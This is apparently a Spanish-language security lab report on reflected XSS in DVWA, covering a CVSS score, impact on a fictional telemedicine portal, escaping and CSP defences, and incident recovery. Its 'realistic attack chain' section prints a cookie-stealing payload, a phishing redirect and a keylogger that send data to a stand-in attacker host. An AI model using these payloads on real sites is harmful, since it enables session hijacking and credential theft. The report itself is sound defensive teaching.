

# Vulnerabilidad 02 — Cross-Site Scripting Reflejado (XSS)

**Módulo DVWA:** XSS (Reflected)  
**Nivel de seguridad:** Low  
**Categoría OWASP:** A03:2021 – Injection  

---

## 1. Evidencia del Ataque

### Payload utilizado

```html
<script>alert('XSS')</script>
```

### Procedimiento

1. Ingresar al módulo **XSS (Reflected)** de DVWA
2. En el campo de nombre, introducir: `<script>alert('XSS')</script>`
3. Hacer clic en **Submit**
4. Observar que el navegador ejecuta el script y muestra un cuadro de alerta

### Captura de pantalla



> **Nota:** Reemplazar con la captura real obtenida de DVWA.

---

## 2. Explicación Técnica

### ¿Por qué funciona este ataque?

El servidor recibe el parámetro `name` desde la URL o el formulario y lo inserta directamente en el HTML de respuesta sin sanitización:

**Código PHP vulnerable (simplificado):**
```php
// INSEGURO
echo "Hello " . $_GET['name'];
```

Cuando el valor es `<script>alert('XSS')</script>`, el HTML resultante es:

```html
<p>Hello <script>alert('XSS')</script></p>
```

El navegador interpreta el tag `<script>` como código JavaScript legítimo y lo ejecuta.

### Diferencia: XSS Reflejado vs. Almacenado

| Tipo | Descripción | Persistencia |
|---|---|---|
| **Reflejado** *(este caso)* | El payload viene en la petición HTTP y se refleja en la respuesta | No persiste en el servidor |
| Almacenado | El payload se guarda en la DB y se sirve a todos los usuarios | Persiste; afecta a múltiples víctimas |
| DOM-based | La manipulación ocurre en el cliente sin intervención del servidor | No persiste en el servidor |

### Cadena de ataque realista

Un atacante no se limita a mostrar una alerta. El payload puede:

```javascript
// Robo de cookies de sesión
<script>
  new Image().src = "https://atacante.com/steal?c=" + document.cookie;
</script>
```

```javascript
// Redirección a sitio de phishing
<script>window.location = "https://saludonline-falso.com/login";</script>
```

```javascript
// Keylogger para capturar credenciales
<script>
  document.addEventListener('keypress', function(e) {
    new Image().src = "https://atacante.com/key?k=" + e.key;
  });
</script>
```

---

## 3. Puntuación CVSS 3.1

**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N`

| Métrica | Valor | Justificación |
|---|---|---|
| Attack Vector (AV) | Network (N) | El portal es accesible por Internet |
| Attack Complexity (AC) | Low (L) | El payload es trivial; basta con construir una URL maliciosa |
| Privileges Required (PR) | None (N) | No requiere cuenta ni autenticación |
| User Interaction (UI) | Required (R) | La víctima debe hacer clic en el enlace malicioso |
| Scope (S) | Changed (C) | El ataque afecta al navegador del usuario, componente separado |
| Confidentiality (C) | Low (L) | Puede robar cookies o datos en pantalla, pero no el servidor completo |
| Integrity (I) | Low (L) | Puede modificar el contenido visual de la página para la víctima |
| Availability (A) | None (N) | No interrumpe el servicio directamente |

### **Puntuación Base: 6.1 — MEDIA**

---

## 4. Impacto Específico en SaludOnline

Aunque el CVSS indica severidad media, en el contexto de una plataforma de telemedicina el impacto es significativo:

- **Robo de sesión de médico:** Un atacante puede secuestrar la sesión de un médico y acceder a las fichas clínicas de todos sus pacientes
- **Robo de sesión de paciente:** El atacante accede a la historia clínica personal, recetas vigentes y datos de seguros
- **Phishing de credenciales:** Redirigir al paciente a una réplica falsa del portal para capturar su usuario y contraseña
- **Modificación visual de recetas:** El atacante puede manipular lo que el médico o paciente ve en pantalla durante una teleconsulta
- **Distribución del ataque:** Al insertar el payload en un enlace de correo de "cita médica", el atacante compromete a múltiples víctimas simultáneamente

---

## 5. Política de Prevención

> **POL-XSS-01:** Toda salida de datos hacia el navegador deberá ser codificada en el contexto adecuado (HTML, atributo, JavaScript, URL) antes de ser renderizada. Se prohíbe insertar datos de usuario en el DOM sin aplicar funciones de escape o sanitización aprobadas.

### Implementación técnica

**Salida vulnerable:**
```php
echo "Hello " . $_GET['name']; // INSEGURO
```

**Salida segura con escape HTML:**
```php
echo "Hello " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8'); // SEGURO
```

**En React (automático):**
```jsx
// React escapa automáticamente el contenido de JSX
return <p>Hello {name}</p>; // SEGURO

// PELIGROSO - evitar a menos que sea necesario
return <p dangerouslySetInnerHTML={{__html: name}} />; // INSEGURO
```

---

## 6. Control de Mitigación

| Control | Descripción | Efectividad |
|---|---|---|
| Content Security Policy (CSP) | Directiva HTTP que impide la ejecución de scripts no listados explícitamente | Muy Alta |
| HTTPOnly + Secure Cookies | Las cookies de sesión no pueden ser leídas por JavaScript | Alta |
| SameSite Cookie | Previene el envío de cookies en solicitudes cross-origin | Alta |
| X-XSS-Protection Header | Habilita el filtro XSS integrado de navegadores legacy | Media |
| Input validation | Rechazar caracteres HTML en campos de texto plano | Media |
| WAF con reglas OWASP | Detectar y bloquear payloads XSS conocidos | Alta |

### Cabecera CSP recomendada para SaludOnline

```
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self'; img-src 'self' data:; frame-ancestors 'none';
```

---

## 7. Plan de Recuperación ante Incidente

Si se detecta una sesión comprometida mediante XSS:

1. **Contener (inmediato):** Invalidar todas las sesiones activas del sistema
2. **Identificar (0-2h):** Revisar logs de acceso para determinar qué sesiones fueron secuestradas y qué datos fueron consultados
3. **Notificar (2-8h):** Comunicar a los usuarios afectados que cambien sus contraseñas inmediatamente
4. **Parchear (8-24h):** Aplicar `htmlspecialchars()` o equivalente en todos los puntos de salida; implementar CSP
5. **Revisar (24-72h):** Auditar todo el código fuente en busca de otros puntos de XSS almacenado o DOM-based
